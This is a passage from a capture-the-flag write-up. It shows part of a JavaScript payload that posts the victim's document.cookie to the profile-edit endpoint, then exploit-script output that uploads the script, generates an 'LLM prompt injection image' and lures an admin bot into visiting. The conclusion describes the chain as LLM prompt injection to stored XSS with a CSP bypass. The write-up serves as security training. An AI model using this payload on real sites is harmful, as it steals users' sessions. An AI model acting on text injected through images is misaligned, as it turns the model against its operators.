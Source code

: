 ```shell
  formData.append("csrf_token", csrfToken);
  formData.append("description", document.cookie);
  
  var fileContent = new Blob(["anything"], { type: "image/png" });
  formData.append("picture", fileContent, "anything.png");
  
  fetch("/edit_profile", {
    method: "POST",
    body: formData
  });
})();
[+] The JavaScript file has been uploaded!
[*] Getting the uploaded JavaScript file path...
[+] The uploaded JavaScript file path is at "/static/profile_pics/948ca249fd4318dd.js"!
[*] Uploading prompt injection profile picture...
[*] Generating the LLM prompt injection image...
[+] The LLM prompt injection image has been generated!
[+] The prompt injection profile picture has been uploaded!
[*] Sending a friend request to admin...
[*] Admin is visiting our profile, please wait 20 seconds...
[+] Admin has been visited our profile page!
[*] Getting the updated admin profile...
[+] We got the flag: "TFCCTF{Such_4_b4d_m0d3l_1e8a4e}"!
```

- **Flag: `TFCCTF{Such_4_b4d_m0d3l_1e8a4e}`**

## Conclusion

What we've learned:

1. Large Language Model (LLM) prompt injection to stored XSS chained with CSP bypass